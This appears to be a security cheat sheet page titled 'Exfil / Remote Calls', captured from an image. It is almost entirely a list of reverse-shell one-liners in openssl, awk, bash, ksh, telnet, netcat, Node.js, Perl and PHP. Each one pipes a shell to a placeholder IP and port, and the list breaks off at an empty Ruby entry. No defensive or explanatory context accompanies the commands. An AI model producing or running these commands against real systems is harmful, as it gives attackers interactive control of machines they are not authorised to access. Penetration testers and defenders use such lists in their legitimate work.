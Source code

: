Exfil / Remote Calls
--------------------
- openssl:

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -CAfile /tmp/cert.pem -verify_return_error -verify 1 -connect $IP:$PORT > /tmp/s; rm /tmp/s
```
- awk/gawk: 

```
awk 'BEGIN {s = "/inet/tcp/0/$IP/$PORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
- bash: 

```
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```
- ksh: 

```
ksh -c 'ksh >/dev/tcp/IP/PORT 2>&1 <&1'
```
-  bash + telnet + ssl: 

```
mkfifo a && telnet -z verify=0 IP PORT 0<a | $(which $0) 1>a & sleep 10 && rm a &
```
- nc: 

```
/bin/sh | nc IP PORT
```
- nc -e: 

```
nc -e /bin/sh IP PORT
```
- nodejs: 

```
(function(){ var net = require("net"), cp = require("child_process"),sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(PORT, "IP", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```
- perl: 

```
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- php: 

```
php -r '$sock=fsockopen("IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- ruby: 
